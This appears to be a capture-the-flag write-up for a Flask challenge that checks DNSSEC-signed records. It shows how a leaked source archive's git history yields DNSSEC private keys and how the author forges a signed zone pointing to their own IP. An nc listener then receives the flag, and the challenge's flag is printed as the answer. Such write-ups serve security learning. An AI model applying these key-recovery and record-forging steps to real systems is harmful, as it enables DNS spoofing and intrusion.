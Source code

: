 In the page source code, an HTML comment reveals the presence of a source code archive:

```html
<!-- <a href="/static/source.zip">Source</a> -->
```

The application is Flask based and has a unique view handling a unique form input. If the submitted input is a valid IPv4 address, the server sends a DNSSEC request and asks for a DNSSEC A record for an unknown domain. The returned record is then checked with hardcoded private keys.

```python
def correct_dnssec(nsaddr, domain):
    #
    name = dns.name.from_text(domain)
    key = {
        name: dns.rrset.from_text(
            domain, 3600, 'IN', 'DNSKEY',
            '256 3 7 [...]',
            '257 3 7 [...]'
        )
    }
    request = dns.message.make_query(domain, dns.rdatatype.A, want_dnssec=True)
    try:
        request = dns.query.udp(request, nsaddr, timeout=7)
    except:
        return False
    answer = request.answer
    if len(answer) < 2:
        # dnsserc not supported
        return False
    else:
        try:
            dns.dnssec.validate(answer[0], answer[1], key)
            return str(answer[0].to_rdataset()[0])
        except:
            # dnssec failed
            return False
```

A `tcpdump` quickly reveals the domain name for which the record is asked:

```
12:08:32.978150 IP 149.13.33.84.39499 > XXXXXXXXXXXXXXX: 1749+ [1au] A? otherside.earth.flux. (49)
```

There is currently no other possibility to forge valid DNSSEC records: we need the associated private keys. A team mate noticed that the archive contained a complete git repository, allowing us to dig into the commit history:

```
$ git log
commit bf3b232d26757f78a0c7b60b5643bd5ccaadeeef (HEAD -> master)
Author: kunte_ <rip@fluxfingers.net>
Date:   Tue Oct 3 17:58:35 2017 +0200

    added jquery

commit 94067e4502a5134d912b6964de7f23a438b7f814
Author: kunte_ <rip@fluxfingers.net>
Date:   Tue Oct 3 17:57:23 2017 +0200

    fixed gitignore

commit eddb23375ea4e08c67a63088ea08b4d5fc18a406
Author: kunte_ <rip@fluxfingers.net>
Date:   Tue Oct 3 17:56:37 2017 +0200

    fixed typo in name
```

Quickly, you can reach the project state containing these wanted keys !

```
git checkout 94067e4502a5134d912b6964de7f23a438b7f814
$ ls keys/
Ksecret+007+11537.key      Ksecret+007+26883.key
Ksecret+007+11537.private  Ksecret+007+26883.private
```

After spending a few hours googling "How to configure a BIND server with DNSSEC", I finally got a working setup.

Put all the files located in subdirectory `bind` in your system `/etc/bind` directory:

  * `db.otherside.earth.flux` : the zone file
  * `Ksecret+007+11537.key` : the KSK public part
  * `Ksecret+007+11537.private` : the KSK private part
  * `Ksecret+007+26883.key` : the ZSK public part
  * `Ksecret+007+26883.private` : the ZSK private part

Patch the zone file in order to make the record otherside.earth.flux pointing to a controlled IP address:

```
@ IN A AA.BB.CC.DD
```

Once you're done, sign the zone file with you keys:
```
/etc/bind# dnssec-signzone -t -g -k Ksecret+007+26883.key -o otherside.earth.flux db.otherside.earth.flux Ksecret+007+11537.key
```

Finally, add the zone in your bind configuration file `/etc/bind/named.conf.local` and restart your BIND:

```
zone "otherside.earth.flux" {
	type master;
	file "/etc/bind/db.otherside.earth.flux.signed";
};
```

The DNSSEC server should be working and you should be able to get a signed record with the following command:

```
dig A otherside.earth.flux @localhost +noadditional +dnssec +multiline
```

The challenge is almost done, submit your IP address into the web form and monitor incoming packets with a `tcpdump` capture.

You will easily notice a SYN packet incoming on the TCP port 1337. Submit the IP again with a listening service for retrieving the flag:

```
# nc -lvp 1337
listening on [any] 1337 ...

149.13.33.84: inverse host lookup failed: Unknown host
connect to [62.210.72.56] from (UNKNOWN) [149.13.33.84] 35952
Server Hello.
flag{bb5986219c9811aa66e7ebeb05d7f757}
```
